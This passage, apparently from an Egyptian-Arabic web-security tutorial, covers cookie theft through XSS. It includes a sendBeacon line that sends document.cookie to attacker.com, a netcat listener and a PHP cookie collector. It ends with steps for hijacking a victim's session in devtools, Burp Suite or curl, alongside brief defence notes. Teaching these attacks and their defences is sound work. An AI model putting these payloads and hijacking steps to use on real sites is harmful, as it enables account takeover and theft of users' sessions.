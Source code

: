    - **إزاي بيحط السكربت؟**
     - نفس الطرق: Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSRF tokens عشان تمنع الطلبات التلقائية.
     - حط `SameSite=Strict` على الكوكيز عشان ميتبعتوش في طلبات من مواقع تانية.

## 6. **استخدام Beacon API لإرسال الكوكيز**
   - **إزاي بتحصل؟**
     - السكربت بيستخدم `navigator.sendBeacon` عشان يبعت الكوكيز لسيرفر المهاجم بطريقة خفية.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       navigator.sendBeacon("http://attacker.com/steal", document.cookie);
       ```
       - `navigator.sendBeacon`: بيبعت البيانات في الخلفية حتى لو الصفحة اتقفلت.
     - **إعداد السيرفر**:
       - زي الأول، netcat:
         ```bash
         nc -lvp 80
         ```
       - أو PHP:
         ```php
         <?php
         file_put_contents("stolen_cookies.txt", file_get_contents("php://input") . "\n", FILE_APPEND);
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع الـ Beacon من الإرسال لغير المواقع الموثوقة.
     - راقب حركة الشبكة لو فيها طلبات Beacon غريبة.

---

### إزاي تستخدم الكوكيز بعد ما تسرقها؟
لو المهاجم قدر يسرق الكوكيز، بيستخدمها كده:
1. **تعديل الكوكيز في المتصفح**:
   - افتح المتصفح (مثل Chrome)، اضغط F12، روح لتبويب Application -> Cookies.
   - أضف الكوكيز اللي سرقتها يدويًا.
   - حدث الصفحة، وهتدخل على حساب الضحية.
2. **استخدام أدوات زي Burp Suite**:
   - افتح Burp Suite، شغل الـ Proxy.
   - اعترض طلب للموقع، وغيّر الكوكيز في الـ Headers للكوكيز اللي سرقتها.
   - أبعت الطلب، وهتدخل على الحساب.
3. **أوامر cURL**:
   - استخدم cURL عشان تبعت طلب بالكوكيز:
     ```bash
     curl -H "Cookie: session= stolen_cookie_value" http://vulnerable.com/profile
     ```
     - الأمر ده بيبعت طلب للموقع بالكوكيز اللي سرقتها.

---
